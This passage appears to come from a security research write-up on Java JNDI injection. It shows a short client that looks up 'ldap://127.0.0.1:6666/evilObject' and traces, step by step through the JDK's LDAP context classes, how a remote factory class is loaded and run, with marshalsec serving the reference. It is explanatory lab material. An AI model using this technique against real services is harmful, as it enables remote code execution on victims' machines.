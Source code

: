 ```java
package org.h3rmesk1t.jndi.LDAPAttack;

import javax.naming.InitialContext;
import javax.naming.NamingException;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/7 7:03 am
 */
public class JNDIClient {

    public static void main(String[] args) throws NamingException {

        new InitialContext().lookup("ldap://127.0.0.1:6666/evilObject");
    }
}
```

![JNDI-LDAP](./images/17.png)

### Process Analysis
Here we use `marshalsec` to start a `LDAP` service, and the breakpoint will also be at `lookup`. The previous steps are the same as `RMI`, and we directly analyze the different places behind them.

Follow up on the `GenericURLContext#lookup` method, further call the `PartialCompositeContext#lookup` method, and first call the `ComponentContext#p_lookup` method in the condition of the `for` loop.

![GenericURLContext#lookup](./images/18.png)

Follow up on the `ComponentContext#p_lookup` method. Since the value of `var4.getStatus()` is `2`, the `LdapCtx#c_lookup` method is further called.

![ComponentContext#p_lookup](./images/19.png)

Follow up on the `LdapCtx#c_lookup` method, just like the previous process of analyzing the `RMI`, follow up on the `Obj#decodeObject` method, there are several processing of serialized data in this method. For details, you can see this article on Security [JNDI with LDAP](https://www.anquanke.com/post/id/201181).

![LdapCtx#c_lookup](./images/20.png)

Go back to the previous step, follow up on the `DirectoryManager#getObjectInstance` method, then call the `getObjectFactoryFromReference` method, and then the same operation as in `RMI` is performed. To determine whether there is a class that needs to be obtained locally. If it does not exist, it will be loaded remotely. Calling the `newInstance` method in the `return` return statement will trigger the class construction method, thereby executing `exploit`.

![DirectoryManager#getObjectInstance](./images/21.png)

### Call chain
